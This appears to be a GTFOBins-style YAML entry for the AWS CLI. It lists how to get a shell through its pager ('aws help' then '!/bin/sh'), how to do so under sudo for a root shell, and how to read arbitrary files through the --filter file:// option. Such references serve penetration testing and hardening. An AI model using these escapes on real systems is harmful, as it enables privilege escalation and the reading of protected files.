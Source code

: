 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        aws help
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo aws help
        !/bin/sh
  file-read:The filter parameter is used to indicate a file with the filter in a specific format, when the file read does not follow the format the engine that parses the file prints its content on the terminal, this behavior affects most of the aws actions with filter parameter
      code: |
        LFILE=file_to_read
        aws ec2 describe-instances --filter file://$LFILE
---
```

